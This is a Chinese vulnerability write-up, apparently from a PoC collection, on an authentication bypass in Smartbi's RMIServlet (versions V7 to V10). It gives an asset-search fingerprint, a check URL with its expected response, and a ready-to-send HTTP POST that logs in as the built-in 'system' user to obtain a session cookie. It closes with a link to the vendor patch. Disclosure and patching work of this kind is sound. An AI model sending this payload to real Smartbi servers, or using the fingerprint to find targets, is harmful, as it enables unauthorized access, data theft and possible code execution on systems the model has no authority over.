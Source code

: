 # Smartbi RMIServlet 登陆绕过漏洞

## 漏洞描述

该漏洞源于 Smartbi 默认存在内置用户，在使用特定接口时，攻击者可绕过用户身份认证机制获取内置用户身份凭证，随后可使用获取的身份凭证调用后台接口，最终可能导致敏感信息泄露和代码执行。

## 漏洞影响

```
V7 <= Smartbi <=V10
```

## 网络测绘

```
app="SMARTBI"
```

## 漏洞复现

验证漏洞是否存在

```
http://your-ip/smartbi/vision/RMIServlet
```

出现以下回显证明漏洞存在

```
{"retCode":"CLIENT_USER_NOT_LOGIN","result":"尚未登录或会话过期"}
```

poc

```
POST /smartbi/vision/RMIServlet HTTP/1.1
Host: your-ip
Content-Type: application/x-www-form-urlencoded
 
className=UserService&methodName=loginFromDB&params=["system","0a"]
```

通过获取的Cookie登陆。

## 漏洞修复

官方已发布漏洞补丁及修复版本，请评估业务是否受影响后，酌情升级至安全版本：https://www.smartbi.com.cn/patchinfo
